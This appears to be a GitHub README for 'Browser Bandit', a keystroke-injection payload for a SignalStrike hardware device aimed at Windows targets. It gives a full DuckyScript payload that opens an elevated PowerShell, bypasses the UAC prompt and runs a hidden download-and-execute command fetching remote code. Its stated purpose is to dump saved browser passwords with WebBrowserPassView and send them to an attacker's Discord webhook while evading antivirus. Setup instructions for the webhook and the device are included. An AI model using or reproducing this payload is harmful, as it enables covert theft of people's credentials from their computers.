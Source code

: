# **Browser Bandit (SignalStrike)**

## Requirements:

- **Hardware**: Code-382 SignalStrike ([store]([https://store-link-here](https://code-382.eu/index.php/product/signalstrike/)))
- **Attacker**: Windows/Linux/MacOS/Android/iOS with Discord installed
- **Target**: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 SignalStrike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a `.txt` file, which is then transmitted to the attacker’s Discord Webhook.

## 1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

1. Create a new Discord server (if you don’t have one already).
2. Right-click on the server icon and select **Server Settings**.
3. Navigate to **Integrations > New Webhook**.
4. Copy the webhook link and save it somewhere safe for later use.

![Alt text]([image-url](https://discordjs.guide/assets/creating-webhooks-1.afb4d719.png))



## 2. Download `Payload.txt`

Next, you need to download `Payload.txt`. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the `Payload.txt` file, locate line 12 and replace `<DISCORD WEBHOOK HERE>` with your actual Discord webhook URL (without the angle brackets `<>`).

### `Payload.txt`

```bash
DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER


## 3. Upload Your Payload to SignalStrike

1. Plug in your SignalStrike device.
2. Connect to its WiFi network (**Default SSID: SignalStrike, Password: SignalStrike**).
3. Open a web browser and go to **192.168.4.1** to access the control panel.
4. Create a new payload and name it "Browser Bandit".
5. Paste your modified `Payload.txt` (with the webhook) into the text box provided.
6. Save the payload and execute it.
